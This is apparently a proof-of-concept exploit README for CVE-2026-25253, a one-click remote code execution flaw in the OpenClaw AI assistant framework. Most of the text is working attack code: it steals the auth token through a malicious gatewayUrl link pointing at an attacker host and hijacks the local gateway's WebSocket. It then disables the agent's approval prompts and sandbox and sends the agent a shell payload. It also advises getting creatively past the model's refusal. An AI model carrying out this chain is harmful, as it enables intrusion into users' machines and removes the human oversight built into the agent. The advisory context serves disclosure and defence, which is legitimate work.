

# CVE-2026-25253: One-Click RCE in OpenClaw via Auth Token Theft

**Affected Software:** OpenClaw (clawbot) < v2026.1.29  
**CVE ID:** CVE-2026-25253  
**CVSS Score:** 8.8 (High)  
**Impact:** Unauthenticated remote attacker can steal an authentication token and achieve Remote Code Execution on the victim's host  

> **LEGAL DISCLAIMER:** This code and writeup are provided for authorized security research and educational purposes only. Use of this exploit against systems without explicit written permission is illegal and unethical. The author assumes no liability for misuse.

---

## Technical Background

OpenClaw, previously known as **Clawdbot** and referred to as **Moltbot** in early versions, is an AI assistant framework that runs locally on macOS, Windows, or Linux. It supports cloud-based models such as Anthropic and OpenAI, as well as local models.

The **Control UI** is a single-page application, served at `/chat`. It communicates with the local gateway server over WebSocket at `ws://127.0.0.1:18789/` (or `wss://host:18789/` for TLS).

Key security characteristics of the affected versions:

- Authentication tokens and passwords are stored in **`localStorage`**
- Device identity is established via **Ed25519 key pairs** (`noble-ed25519`)
- The WebSocket protocol uses JSON-RPC style messages (`type: "req"`, `"res"`, `"event"`)
- On connect, the Control UI sends authentication credentials and device identity in the first `connect` frame

---

## Root Cause: `applySettingsFromUrl()`

The vulnerability lives in [`applySettingsFromUrl()`](https://github.com/openclaw/openclaw/blob/bcedeb4e1f620a50b6e99f1e2b25cc692f0d7bab/ui/src/ui/app-settings.ts#L59) in the Control UI.

When the Control UI is loaded, this function reads the `?gatewayUrl=` query parameter from the URL and **stores it as the active gateway endpoint** — with no validation of whether it points to a trusted host.

An attacker can craft a link such as:

```
http://<target>/chat?gatewayUrl=ws://attacker.com
```

When the victim clicks this link while authenticated in OpenClaw, the following happens automatically:

1. `applySettingsFromUrl()` stores `ws://attacker.com` as the new gateway URL
2. The Control UI opens a WebSocket connection to the attacker's server
3. The Control UI sends its `connect` frame — including the **authentication token**, device ID, and Ed25519 public key — to the attacker
4. The attacker captures the token and replays it against the legitimate gateway at `ws://127.0.0.1:18789`
5. The attacker now has an authenticated operator session on the victim's machine

---

## Exploitation

### Step 1 — Token Theft via the Popup Trick

In this PoC, the attacker hosts a page (`meeting.html`) that opens the victim's own Control UI in a popup, injected with the malicious `?gatewayUrl=` parameter:

```javascript
const attackerGatewayUrl = `ws://<attacker>:8080`;
const targetUrl = `http://127.0.0.1:18789?gatewayUrl=${encodeURIComponent(attackerGatewayUrl)}`;
window.open(targetUrl, '_blank');
```

The attacker server exploits OpenClaw's two-token fallback: the first `connect` attempt uses the **device token** (Ed25519-bound, not replayable). By rejecting it, the server forces the Control UI to retry with the **settings token** — a long-lived bearer token that *is* replayable:

```javascript
// Reject attempt #1 → forces Control UI to retry with settings token
if (connectAttempts === 1) {
  ws.send({ type: 'res', ok: false, error: { code: 'AUTH_FAILED' } });
  return;
}
// Attempt #2 → settings token → CAPTURED
capturedToken = token;
```

### Step 2 — Cross-Site WebSocket Hijacking

With the stolen settings token, `meeting.html` opens its **own** direct WebSocket connection to the real gateway (`ws://127.0.0.1:18789`). This is possible because the gateway in versions < v2026.1.29 does not validate the `Origin` header — any page loaded in the victim's browser can connect to it.

### Step 3 — Disable Security Controls

```javascript
// Turn off all execution approval prompts
await sendRequest('exec.approvals.set', {
  file: {
    defaults: { ask: 'off', autoAllowSkills: true },
    agents: { '*': { ask: 'off' } },
  }
});

// Escape container sandbox, redirect exec to host machine
await sendRequest('config.patch', {
  raw: JSON.stringify({
    tools: { exec: { host: 'gateway', ask: 'off' } },
    agents: { defaults: { sandbox: { mode: 'off' } } },
  })
});
```

### Step 4 — Remote Code Execution

The content of the message field is processed by the LLM configured in the agent, this means, if the LLM deems the content to be harmful, it will not execute the command. You have to be creative to bypass the LLM's security measures.

```javascript
await sendRequest('agent', {
  message: 'Execute this shell command: <payload>',
  agentId: 'main',
  sessionKey: 'agent:main:main',
  deliver: false,
});
```

---

## Full Attack Flow




---

## Running the PoC

### Setup

```bash
npm install   # installs 'ws' dependency
```

### Configure `meeting.html`

```javascript
const GATEWAY_URL      = 'ws://127.0.0.1:18789';  // victim's local gateway
const ATTACKER_WS_PORT = 8080;                     // must match attacker-server.js
const COMMAND = 'touch /tmp/success';
```

### Run

```bash
node attacker-server.js
```

Send the victim:
```
http://<ATTACKER_IP>:3000/meeting.html
```

---

## References

https://github.com/openclaw/openclaw/security/advisories/GHSA-g8p2-7wf7-98mq

https://www.sonicwall.com/blog/openclaw-auth-token-theft-leading-to-rce-cve-2026-25253

https://hackers-arise.com/cve-2026-25253-how-malicious-links-can-steal-authentication-tokens-and-compromise-openclaw-ai-systems/
